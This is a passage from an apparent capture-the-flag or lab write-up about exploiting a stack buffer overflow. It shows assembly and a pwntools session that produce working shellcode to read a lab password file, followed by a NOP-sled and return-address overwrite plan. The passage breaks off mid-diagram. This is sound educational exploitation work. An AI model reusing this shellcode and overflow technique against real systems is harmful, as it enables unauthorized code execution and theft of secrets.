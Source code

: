 ```asm
/* Get file size */
add esp, 20
mov esi, [esp]

/* call sendfile('edi', 'ebp', 0, 'esi') */
xor eax, eax
mov al, 0xbb
mov ebx, edi
mov ecx, ebp
cdq /* edx=0 */
int 0x80
```

That looks beautiful! The only problem is that we need to use this as shellcode, meaning we need it in the form of bytes, not assembly instructions. Thankfully, pwntools also has [a handy function `asm()`](http://docs.pwntools.com/en/stable/asm.html#pwnlib.asm.asm) which converts assembly code into the raw bytes to be used as shellcode.

Let's try it out!

```python
Python 2.7.14 (default, Sep 25 2017, 09:53:22) 
[GCC 4.2.1 Compatible Apple LLVM 9.0.0 (clang-900.0.37)] on darwin
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> asm(pwnlib.shellcraft.i386.linux.readfile('/home/lab3A/.pass', 1))
'j\x01_jsh.pashb3A/he/lah/homj\x05X\x89\xe31\xc9\xcd\x80\x89\xc5\x89\xc3jlX\x89\xe1\xcd\x80\x83\xc4\x14\x8b4$1\xc0\xb0\xbb\x89\xfb\x89\xe9\x99\xcd\x80'
>>> 
```

Our final shellcode payload looks like:

```
j\x01_jsh.pashb3A/he/lah/homj\x05X\x89\xe31\xc9\xcd\x80\x89\xc5\x89\xc3jlX\x89\xe1\xcd\x80\x83\xc4\x14\x8b4$1\xc0\xb0\xbb\x89\xfb\x89\xe9\x99\xcd\x80
```

Now, all that's left to do is to craft our exploit. The size of the buffer is 128 bytes so we have plenty of space to work with. Let's make the entire buffer all NOPs and then our shellcode. In `gdb`, it looks like `bffff640` might be around the ballpark of where this buffer begins, so we overwrite the function return address with this address. In addition to this, it looks like there's 28 bytes between the end of the buffer and the return address we want to overwrite. Our shellcode comes out to be 62 bytes. Therefore, the following is what we want the stack to look like after we write to the buffer:

```
+------------------+
| \x90\x90\x90\x90 | <-- 0xbffff640 (approximately beginning of buffer)
+------------------+
| \x90\x90\x90\x90 |
+------------------+
| \x90\x90\x90\x90 |
+------------------+
| \x90\x90\x90\x90 |
+------------------+
        ...
+------------------+        
|\x90\x90 shellcode| <-- 0xbffff640 + 64 (Beginning of shellcode)
+------------------+
|    shellcode     |
+------------------+
|    shellcode     |
+------------------+
        ...
+------------------+
|    shellcode     |
```
